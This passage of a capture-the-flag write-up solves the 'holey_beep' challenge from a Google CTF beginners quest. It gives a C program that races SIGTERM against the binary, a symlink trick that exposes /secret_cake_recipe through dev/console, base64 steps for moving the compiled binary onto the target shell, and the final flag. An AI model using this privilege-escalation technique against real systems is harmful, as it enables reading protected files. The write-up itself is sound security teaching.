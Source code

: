 Right off the bat, the program registers a signal handling function, `handle_sigterm`, which will take control of execution when `SIGTERM`, a termination signal gets sent to the program.

If the file descriptor `device` is a positive number, the program will read 1023 bytes from it and print the result to `stderr`. Note that the signal handler is counting on `ioctl` to fail.

Under what circumstances will `ioctl` fail? As long as the file descriptor is not opened to a character device, `ioctl` fails. Simple as that.

We could create a symbolic link between `/secret_cake_recipe` and `dev/console`. When the program executes, a file descriptor gets opened to `dev/console` (not a character device) which is a symbolic link to `/secret_cake_recipe`. Perfect.

Now, how do we send a `SIGTERM` while the program is running? To that end, I wrote `woot.c` to automate this.

<div class="filename"><span>woot.c</span></div>
```c
#include <signal.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
  pid_t pid = fork();

  if (pid == 0) {
    char *args[] = {"/home/user/holey_beep", "0", NULL};
    execv(args[0], args);
  } else {
    usleep(atoi(argv[1]));
    kill(pid, SIGTERM);
  }

  return 0;
}
```

We'll need to use the shell from the previous challenge. Remember, there's no `gcc`, so we'll have to compile it locally, compress it and then copy the `base64` representation over to the shell. In the shell, we'll have to reverse the process.

At the local machine, do the following:

```
# gcc -o woot woot.c
# gzip woot
# base64 woot.gz | tr -d '\n' && echo
```

At the shell, do the following:
```
$ cd /tmp && mkdir dev && ln -s /secret_cake_recipe dev/console
$ echo H4sI...AAA= > woot.gz.b64
$ base64 -d < woot.gz.b64 > woot.gz
$ gunzip woot.gz
$ chmod +x woot
```

Let's give it a shot.

{% include image.html image_alt="flag" image_src="/assets/images/posts/google-ctf-beginners-quest-part-2/f077de25.png" %}

The flag is `CTF{the_cake_wasnt_a_lie}`.
